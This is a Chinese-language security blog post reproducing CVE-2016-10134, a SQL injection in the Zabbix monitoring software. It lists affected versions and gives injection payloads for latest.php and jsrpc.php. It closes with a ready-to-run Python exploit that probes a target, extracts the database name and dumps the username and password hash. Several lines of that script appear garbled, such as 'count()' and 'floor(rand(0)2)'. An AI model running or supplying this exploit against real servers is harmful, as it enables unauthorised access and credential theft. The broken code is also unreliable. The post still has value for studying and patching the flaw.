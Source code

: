 ```yaml
---
permalink: 2019/08/03/zabbix-sql-injection/
tags:
  - SQL注入
  - zabbix
layout: post
date: '2019-08-03 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: zabbix SQL注入（CVE-2016-10134）
---
```


## 什么是zabbix


zabbix是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。


zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。


zabbix由2部分构成，zabbix server与可选组件zabbix agent。


zabbix server可以通过SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X等平台上。


> _2016年8月12日，1n3通过邮件披露了Zabbix软件的jsrpc.php文件在处理profileIdx2参数时存在insert方式的SQL注入漏洞，与官方通告的latest.php文件在处理toggleids参数时存在insert方式的SQL注入漏洞属于同一类型的漏洞，只是攻击的位置不同。_


## 受影响版本


ZABBIX 2.0.5 2.0.13 2.2.x 2.4.2 2.4.5 2.4.7 2.4.8 2.5.0 3.0.0-3.0.3


## 不受影响的版本


_`ZABBIX 1.8.，2.2.14，3.0.4，3.2.0`_


## 漏洞复现


注入在两个页面中都存在，分别进行验证。

1. latest.php页面：

此页面需要使用已注册用户或者guest用户登陆才可以。


![vg8f2L9JGsqyHmn.png](../post_images/5544313dae168a8be656a51417b64567.png)


_使用guest用户登陆，查看cookie中的zbxsessionid_


![g6hn3sbmDvH1FkT.png](../post_images/0b1edf6dc18f8fe671e56daa98fc7eb6.png)


此页面注入的payload为：


> _**`http://ip:port/latest.php?output.php=ajax&sid=&favobj=toggle&toggleopenstate=1&toggleids=updatexml(0,concat(0xa,database()),0)`**_


_需要将zbxsessionid中的后16位拿出来放到sid后面_


![hyX7G4bCHduNIKr.png](../post_images/5eba46552de6edef2afe1c680868d66b.png)


可看到已经注入成功，将数据库名显示了出来。

1. jsrpc.php页面:

此页面无需登陆即可注入


zabbix 3.0.4版本已经修复了latest.php页面的注入，但不清楚是否已修复jsrpc.php页面的注入，遇到3.0.4版本也可尝试进行注入。


此页面注入的poc为：


```php
http://192.168.223.130:8080/jsrpc.php
?sid=0bcd4ade648214dc
&type=9
&method=screen.get
&timestamp=1471054088083
&mode=2
&screenid=
&groupid=
&hostid=0
&pageFile=history.php
&profileIdx=web.item.graph
&profileIdx2=1'
&updateProfile=true
&screenitemid=
&period=3600
&stime=20170813040734
&resourcetype=17
&itemids[23297]=23297
&action=showlatest
&filter=
&filtertask=
&markcolor=1
```


注入点在profileIdx2参数


测试如下：


![UZtOIXlsJWDh2ib.png](../post_images/6acf521de4b014f72242b8c0f99785df.png)


同样可构造注入语句显示数据库名：


![yLG9Zc6O3E5UqrR.png](../post_images/91a0b4eb9f310ea0fb89c46cb5027929.png)


## 利用EXP


```python
# coding= utf-8
import sys,re
import requests

def sqlcheck():
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=2’3297" \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"

    requesturl = zabbixurl+poc

    try:
        rsp = requests.get(requesturl,timeout=5)
        r = rsp.text
        keyWord = re.findall("INSERT\sINTO\sprofiles",r)
        if keyWord:
            print("此地址存在注入")
        else:
            print("此地址不存在注入，无法利用")
    except Exception as e:
        print(e)


def getdatabase():
    payload = "(select database())"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2="+payload+ \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl + poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Incorrect.?(\S+)\sfor',r,re.S)
        print("数据库名称为：" + keyword.group(1))
    except Exception as e:
        print(e)

def getUserPass():
    payload = "(select 1 from(select count()," \
              "concat((select (select (select concat(0x7e,(select concat(alias,0x3a,passwd) " \
              "from  users limit 0,1),0x7e))) from informationschema.tables limit 0,1),floor(rand(0)2))x from " \
              "informationschema.tables group by x)a)"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=" + payload + \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl+poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Duplicate.?(\S+)\sfor',r,re.S)
        print("用户名和密码为：" + keyword.group(1))
    except Exception as e:
        print(e)


if name == 'main':
    print(''60)
    print('\t CVE-2016-10134')
    print('\t Zabbix SQL injection EXP')
    print('\t by https://darkless.cn')
    print('\t python>=3.5 and usage "python zabbix-sql-inject-exp.py"')
    print(''  60)
    zabbixurl = input("请输入zabbix地址，例如：http://192.168.0.1:8080 >>>>")
    if not zabbixurl:
        sys.exit()
    sqlcheck()
    getdatabase()
    getUserPass()
```


## 参考文章

- https://www.waitalone.cn/zabbix-sql-1.html
- http://blog.nsfocus.net/sql-zabbix-analysis-protection-scheme-injection-vulnerability/
- https://blog.csdn.net/csacs/article/details/86656618
